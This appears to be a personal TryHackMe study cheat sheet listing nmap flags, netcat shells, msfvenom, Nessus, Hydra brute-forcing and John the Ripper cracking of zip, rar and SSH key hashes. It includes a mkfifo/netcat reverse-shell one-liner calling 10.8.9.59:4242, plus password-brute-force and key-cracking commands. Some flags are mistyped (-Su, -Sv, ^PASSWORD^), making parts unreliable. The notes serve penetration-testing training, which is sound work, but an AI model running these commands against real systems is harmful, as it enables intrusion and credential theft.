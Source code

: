 # TryHackMe - Cheat Sheet

## Useful Links

- [Sec Lists](https://github.com/danielmiessler/SecLists)
- [Identify Hash Types](https://hashes.com/en/tools/hash_identifier)
- [Brute Force Cheatsheet](https://book.hacktricks.xyz/brute-force)

## NMAP

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.9.59 4242 >/tmp/f`

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom 

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 

## John the Ripper

### Basic Syntax

`john [options] [path to file]`

### Automatic Cracking

`john --wordlist=[path to wordlist] [path to file]`

### Format-Specific Cracking

`john --format=[format] --wordlist=[path to wordlist] [path to file]`

### Single Crack Mode

`john --single --format=[format] [path to file]` (Uses username to crack password)

### Passwword Protected Zip Files

- Convert zip file into a hash: `zip2john zipfile.zip > zip_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`

### Passwword Protected Rar Files

- Convert rar file into a hash: `rar2john [rar file] > [output file]` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt`

### Passwword Protected RarFiles

- Convert shh2 file into a hash: `ssh2john id_rsa > id_rsa_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt`





